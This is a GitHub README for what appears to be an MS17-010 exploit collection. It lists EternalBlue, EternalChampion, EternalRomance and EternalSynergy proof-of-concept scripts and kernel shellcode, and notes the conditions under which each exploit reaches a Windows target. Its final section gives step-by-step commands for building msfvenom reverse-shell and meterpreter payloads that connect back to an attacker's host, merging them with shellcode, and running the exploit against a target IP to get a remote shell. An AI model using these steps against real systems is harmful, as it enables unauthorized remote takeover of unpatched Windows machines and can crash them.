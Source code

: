 # MS17-010

This repository is for public my work on MS17-010. I have no plan to do any support. **All support issues will not get response from me**.

## Files

 * **BUG.txt** MS17-010 bug detail and some analysis
 * **checker.py** Script for finding accessible named pipe
 * **eternalblue_exploit7.py** Eternalblue exploit for windows 7/2008
 * **eternalblue_exploit8.py** Eternalblue exploit for windows 8/2012 x64
 * **eternalblue_poc.py** Eternalblue PoC for buffer overflow bug
 * **eternalblue_kshellcode_x64.asm** x64 kernel shellcode for my Eternalblue exploit. This shellcode should work on Windows Vista and later
 * **eternalblue_kshellcode_x86.asm** x86 kernel shellcode for my Eternalblue exploit. This shellcode should work on Windows Vista and later
 * **eternalblue_sc_merge.py** Script for merging eternalblue x86 and x64 shellcode. Eternalblue exploit, that support both x86 and x64, with merged shellcode has no need to detect a target architecture
 * **eternalchampion_leak.py** Eternalchampion PoC for leaking info part
 * **eternalchampion_poc.py** Eternalchampion PoC for controlling RIP
 * **eternalchampion_poc2.py** Eternalchampion PoC for getting code execution
 * **eternalromance_leak.py** Eternalromance PoC for leaking info part
 * **eternalromance_poc.py** Eternalromance PoC for OOB write
 * **eternalromance_poc2.py** Eternalromance PoC for controlling a transaction which leading to arbitrary read/write
 * **eternalsynergy_leak.py** Eternalsynergy PoC for leaking info part
 * **eternalsynergy_poc.py** Eternalsynergy PoC for demonstrating heap spraying with large paged pool
 * **infoleak_uninit.py** PoC for leaking info from uninitialized transaction data buffer
 * **mysmb.py** Extended Impacket SMB class for easier to exploit MS17-010 bugs
 * **npp_control.py** PoC for controlling nonpaged pool allocation with session setup command
 * **zzz_exploit.py** Exploit for Windows 2000 and later (requires access to named pipe)


## Anonymous user

Anonymous user (null session) get more restriction on default settings of new Windows version. To exploit Windows SMB without authentication, below behavior should be aware.

* Since Windows Vista, default settings does not allow anonymous to access any named pipe
* Since Windows 8, default settings does not allow anonymous to access IPC$ share (IPC$ might be acessible but cannot do much)


## About NSA exploits

* **Eternalblue** requires only access to IPC$ to exploit a target while other exploits require access to named pipe too. So the exploit always works against Windows < 8 in all configuration (if tcp port 445 is accessible). However, Eternalblue has a chance to crash a target higher than other exploits.
* **Eternalchampion** requires access to named pipe. The exploit has no chance to crash a target.
* **Eternalromance** requires access to named pipe. The exploit can target Windows < 8 because the bug for info leak is fixed in Windows 8. The exploit should have a chance to crash a target lower than Eternalblue. I never test a reliable of the exploit.
* **Eternalsynergy** requires access to named pipe. I believe this exploit is modified from Eternalromance to target Windows 8 and later. Eternalsynergy uses another bug for info leak and does some trick to find executable memory (I do not know how it works because I read only output log and pcap file).

## Instructions to perform exploit

**Step 1:** `git clone https://github.com/w0rtw0rt/MS17-010.git && cd MS17-010/`

**Step 1a:** gedit/vi/nano eternalblue_exploit8.py and change lines 52 and 53 to match the account authentication
<p>
  example:
<p>
  USERNAME='Guest'
<p>
  PASSWORD=''

**Step 2:** cd shellcode and type `nasm -f bin eternalblue_kshellcode_x64(x86).asm`

**Step 3:** `msfvenom -p windows/x64/meterpreter/reverse_tcp -f raw -o meterpreter_(IP)_msf.bin EXITFUNC=thread LHOST=(IP) LPORT=(Port)`

**Step 3a:** `msfvenom -p windows/x64/shell/reverse_tcp -f raw -o shell_(IP)_msf.bin EXITFUNC=thread LHOST=(IP) LPORT=(Port)`

**Step 4:** `cat eternalblue_kshellcode_x64(x86) shell_(IP)_msf.bin (OR meterpreter_(IP)_msf.bin) > (payloadname).bin`

**Step 5:** Set up exploit/multi/handler in a new terminal window with matching payload you created above and run it

**Step 6:** `cd MS17-010`

**Step 7:** `python eternalblue_exploit8.py (target IP) (payloadname).bin (GROOM COUNT)`

**-side note-** Groom count will typically function with a "200" for windows 8/2012r2 but *might* crash the system - use at your own risk

**Step 8:** shell/meterpreter should be returned if "Guest" account is active or entered credentials worked.
